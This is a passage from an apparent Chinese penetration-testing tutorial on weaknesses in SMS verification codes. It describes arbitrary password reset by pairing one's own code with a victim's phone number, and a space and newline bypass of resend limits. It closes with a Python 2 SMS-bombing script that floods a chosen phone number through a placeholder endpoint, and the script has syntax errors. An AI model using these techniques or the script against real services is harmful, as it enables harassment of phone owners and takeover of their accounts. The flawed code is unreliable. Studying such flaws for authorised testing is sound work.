 一般来说短信验证码仅能使用一次，验证码和手机号未绑定，验证码一段时间内有效，那么就可能出现如下情况：

  * A手机验证码，B可能拿来用

  * A手机在一定时间间隔内接收到两个验证码，都可以用；

  * 检测接收验证码的手机号和绑定的手机号是否一致

案例：任意用户密码重置

  * 使用自己的手机号收到验证码

  * 自己的验证码和对方手机号填上，下一步就是设置新的密码

###  **9.8、代码层逻辑缺陷**

如果代码层的逻辑是这个样子：

  * 验证手机号是否已发送验证码

  * 去除用户输入的空格和其他特殊字符

  * 重新发送验证码

那么，可利用"\n"和空格进行绕过，持续递增空格就可造成无线短信轰炸，我们在手机号后面加一位进行fuzz，可能会有不一样的结果；

![]()

#  ** **十、** 短信轰炸**

1）短信轰炸时手机验证码中最常见的一种漏洞类型，在测试过程中，对短信验证码接口进行重发数据包，导致大量发送恶意短信；  

![]()

2）大多数情况下，短信验证码都是间隔60秒，这种情况，我们就每隔60秒发一条短信，无线下发，短信轰炸，在测试过程中，可通过编写Python脚本来实现短信轰炸；

    
    
    #coding=utf-8  
    import json  
    import requests  
    import time  
    start_time = time.time()  
    count =input("Please input counts:")  
    phone =raw_input("Please inut your phone:")  
    i=0  
    while (i<count):  
        url= "http://xxxx.cn:9092/map/GenerationUpdate"  
        data=json.dumps({"headerInfo": { "functionCode": "randomcode4G"},"requestContent":{"phoneNumber":phone}})  
      
        header = { 'User-Agent' : 'Mozilla/5.0 (iPhone; CPU iPhone OS 10_2_1 like Mac OS X) AppleWebKit/602.4.6 (KHTML, like Gecko) Version/10.0 Mobile/14D27 Safari/602.1''Host': 'xxxx.com:9092'，  
                 }  
        r = requests.post(url, data=data,headers=header,timeout=5)  
        result=r.content  
        if result.count('serviceCode":0'):  
            print 'Sending message : %d seconds ' % (time.time()-start_time)  
        i=i+1  
    #print 'send %s time'%(i)  
    